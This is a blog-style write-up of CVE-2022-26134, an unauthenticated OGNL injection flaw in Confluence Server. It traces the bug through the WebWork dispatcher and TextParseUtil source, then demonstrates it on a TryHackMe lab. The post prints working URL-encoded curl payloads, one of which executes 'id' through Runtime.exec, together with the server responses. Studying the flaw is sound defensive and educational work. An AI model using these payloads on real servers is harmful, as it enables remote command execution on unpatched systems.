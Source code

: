 ```yaml
---
layout: post
title: "Atlassian Confluence Server, What Went Wrong? (CVE-2022-26134)"
comments: true
description: "An Attempt to Learn From 0day"
tags: "Linux Pentesting 0day"
---
```


# Intro

On June 02, 2022, Atlassian published a [security advisory](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) about a critical severity Unauthenticated Remote Code Execution vulnerability affecting Confluence Server and Data Center. According to the advisory, the vulnerability is being actively exploited and Confluence Server and Data Center versions after 1.3.0 are affected. The vulnerability is tracked as [CVE-2022-26134](https://nvd.nist.gov/vuln/detail/CVE-2022-26134) with 9.8 CVSSv3 score with multiple proof of concept exploits released by security researchers on GitHub.


CVE-2022-26134 is an unauthenticated OGNL Injection remote code execution vulnerability affecting Confluence Server and Data Center versions after 1.3.0. In order to exploit a vulnerable server, a remote attacker can send a malicious HTTP GET request with an OGNL payload in the URI. The vulnerable server once exploited it would allow the attacker to execute commands remotely with user privileges running the Confluence application. The vulnerability is fixed in Confluence versions 7.4.17, 7.13.7, 7.14.3, 7.15.2, 7.16.4, 7.17.4 and 7.18.1.

# Object-Graph Navigation Language (OGNL) 

Object-Graph Navigation Language (OGNL) is an open-source Expression Language (EL) used for getting and setting the properties of Java objects. OGNL started out as a way to set up associations between UI components and controllers using property names. As the desire for more complicated associations grew, Drew Davidson created what he called KVCL, for Key-Value Coding Language, egged on by Luke Blanshard. Luke then reimplemented the language using ANTLR, came up with the new name, and, egged on by Drew, filled it out to its current state. Later on Luke again reimplemented the language using JavaCC.

A simple example of OGNL in action can be found in [this article](https://www.pingidentity.com/en/resources/blog/post/a-simple-ognl-expression.html)written by John DaSilva. In short, it gives backend access to front-end attribute which usually involves HTTP's parameter.

# OGNL Injection

An OGNL Injection occurs when there is insufficient validation of user-supplied data, and the EL interpreter attempts to interpret it enabling attackers to inject their own EL code. For example, it is possible for the attacker to inject OGNL expressions (which can execute arbitrary malicious Java code), when an OGNL expression injection vulnerability is present

# What went wrong?

## [`ServletDispatcher`](https://docs.atlassian.com/DAC/javadoc/opensymphony-webwork/1.4-atlassian-17/reference/webwork/dispatcher/ServletDispatcher.html) Class

For the description I'll just quote from Atlassian.
	Main dispatcher servlet. It works in three phases: first propagate all parameters to the command JavaBean. Second, call execute() to let the JavaBean create the result data. Third, delegate to the JSP that corresponds to the result state that was chosen by the JavaBean.

```java
public static String getNamespaceFromServletPath(String servletPath) {
servletPath = servletPath.substring(0, servletPath.lastIndexOf("/"));
return servletPath;
}
```

The `getNamespaceFromServletPath` is used to obtain the namespace to which an Action belongs. This allows us to insert anything to be processed as long as it's sent before the last trailing slash.


## [`ActionChainResult`](https://struts.apache.org/maven/struts2-core/apidocs/com/opensymphony/xwork2/ActionChainResult.html) Class

The namespace processed then being processed by a method `execute` inside  `ActionChainResult` class as `this.namespace`.

```java
public void execute(final ActionInvocation invocation) throws Exception {
if (this.namespace == null) {
this.namespace = invocation.getProxy().getNamespace();
}
final OgnlValueStack stack = ActionContext.getContext().getValueStack();
final String finalNamespace = TextParseUtil.translateVariables(this.namespace, stack);
final String finalActionName = TextParseUtil.translateVariables(this.actionName, stack);
if (this.isInChainHistory(finalNamespace, finalActionName)) {
throw new XworkException("infinite recursion detected");
}
```

## [`TextParseUtil`](https://struts.apache.org/maven/struts2-core/apidocs/index.html?com/opensymphony/xwork2/util/TextParseUtil.html) Class

```java
package com.opensymphony.xwork.util;
import java.util.regex.Matcher;
import java.util.regex.Pattern;
public class TextParseUtil
{
public static String translateVariables(final String expression, final OgnlValueStack stack) {
final StringBuilder sb = new StringBuilder();
final Pattern p = Pattern.compile("\\$\\{([^}]*)\\}");
final Matcher m = p.matcher(expression);
int previous = 0;
while (m.find()) {
final String g = m.group(1);
final int start = m.start();
String value;
try {
final Object o = stack.findValue(g);
value = ((o == null) ? "" : o.toString());
}
catch (Exception ignored) {
value = "";
}
sb.append(expression.substring(previous, start)).append(value);
previous = m.end();
}
if (previous < expression.length()) {
sb.append(expression.substring(previous));
}
return sb.toString();
}
}
```

Here the program tries to find the pattern based on regex `"\\$\\{([^}]*)\\}"` as defined by `p` variable. It uses the `Pattern.compile()` method to create the pattern and `matcher()` to search the pattern. Finaly, it uses `findValue()` method which will try to find the value by **Evaluating** the expression, making it possible to achieve Remote Code Execution.


# The Exploit 

To demonstrate the exploitation, I will be using the lab from [TryHackMe](https://tryhackme.com/room/cve202226134). The room includes a vulnerable version of Atlassian's [Confluence Server and Data Center editions](https://www.atlassian.com/software/confluence).


1. Set up
![init](/assets/attempt/atlassiancon/init1.png)
2. Crafting exploit
What we want to do to confirm the exploitation is to set a header that will show the command output. We can do it by using
```java
${@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-RCE-Output","ejak")}
```

Do not forget to URL encode everything and the final payload will look like:
```bash
 curl 'http://10.10.240.242:8090/$%7B@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader(%22X-RCE-Output%22,%22ejak%22)%7D/
```

The result should look like this:
```bash
┌──(small㉿small)-[~]
└─$ curl 'http://10.10.240.242:8090/$%7B@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader(%22X-RCE-Output%22,%22ejak%22)%7D/' -v
*   Trying 10.10.240.242:8090...
* Connected to 10.10.240.242 (10.10.240.242) port 8090 (#0)
> GET /$%7B@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader(%22X-RCE-Output%22,%22ejak%22)%7D/ HTTP/1.1
> Host: 10.10.240.242:8090
> User-Agent: curl/7.85.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1664714923753
< Set-Cookie: JSESSIONID=FBCB9E68E3A3078D6A8C5C3F9606788D; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< **X-RCE-Output: ejak** <------------------------ Successful exploit
< Location: /login.action?os_destination=%2F%24%7B%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-RCE-Output%22%2C%22ejak%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sun, 02 Oct 2022 12:48:43 GMT
<
* Connection #0 to host 10.10.240.242 left intact
```
![Add Header](/assets/attempt/atlassiancon/addheader.png)
To escalate this to RCE, we can replace the value of the header with the output of a specified shell command.

We can achieve this by modifying our payload to look like this (stolen from Qualys):
```java
${(#rce=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Qualys-Response",#rce))}
```

The final payload will look like:
```bash
curl 'http://10.10.240.242:8090/%24%7B%28%23rce%3D%40org%2Eapache%2Ecommons%2Eio%2EIOUtils%40toString%28%40java%2Elang%2ERuntime%40getRuntime%28%29%2Eexec%28%22id%22%29%2EgetInputStream%28%29%2C%22utf%2D8%22%29%29%2E%28%40com%2Eopensymphony%2Ewebwork%2EServletActionContext%40getResponse%28%29%2EsetHeader%28%22X%2DRCE%2DOutput%22%2C%23rce%29%29%7D/' -v
```

The result should reveal the user:
```bash
┌──(small㉿small)-[~]
└─$ curl 'http://10.10.240.242:8090/%24%7B%28%23rce%3D%40org%2Eapache%2Ecommons%2Eio%2EIOUtils%40toString%28%40java%2Elang%2ERuntime%40getRuntime%28%29%2Eexec%28%22id%22%29%2EgetInputStream%28%29%2C%22utf%2D8%22%29%29%2E%28%40com%2Eopensymphony%2Ewebwork%2EServletActionContext%40getResponse%28%29%2EsetHeader%28%22X%2DRCE%2DOutput%22%2C%23rce%29%29%7D/' -v
*   Trying 10.10.240.242:8090...
* Connected to 10.10.240.242 (10.10.240.242) port 8090 (#0)
> GET /%24%7B%28%23rce%3D%40org%2Eapache%2Ecommons%2Eio%2EIOUtils%40toString%28%40java%2Elang%2ERuntime%40getRuntime%28%29%2Eexec%28%22id%22%29%2EgetInputStream%28%29%2C%22utf%2D8%22%29%29%2E%28%40com%2Eopensymphony%2Ewebwork%2EServletActionContext%40getResponse%28%29%2EsetHeader%28%22X%2DRCE%2DOutput%22%2C%23rce%29%29%7D/ HTTP/1.1
> Host: 10.10.240.242:8090
> User-Agent: curl/7.85.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1664715958901
< Set-Cookie: JSESSIONID=578CA1DCB861B4F9AEA5B6800882A60A; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< X-RCE-Output: uid=1002(confluence) gid=1002(confluence) groups=1002(confluence)
< Location: /login.action?os_destination=%2F%24%7B%28%23rce%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-RCE-Output%22%2C%23rce%29%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sun, 02 Oct 2022 13:05:58 GMT
<
* Connection #0 to host 10.10.240.242 left intact

```

![Exploit](/assets/attempt/atlassiancon/exploit.png)



